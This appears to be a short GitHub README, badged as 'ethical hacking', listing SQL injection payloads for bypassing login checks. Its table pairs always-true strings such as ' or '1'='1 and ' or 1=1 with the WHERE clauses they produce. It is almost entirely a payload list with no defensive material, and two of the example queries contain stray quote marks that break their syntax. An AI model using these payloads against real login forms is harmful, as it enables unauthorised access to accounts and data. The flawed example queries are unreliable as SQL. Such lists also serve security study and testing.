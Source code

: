 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

## Table of contents

1. [Bypass SQL Always True](#alwaystrue)
 
## Bypass SQL Always True <a name="alwaystrue"></a>

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|
| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
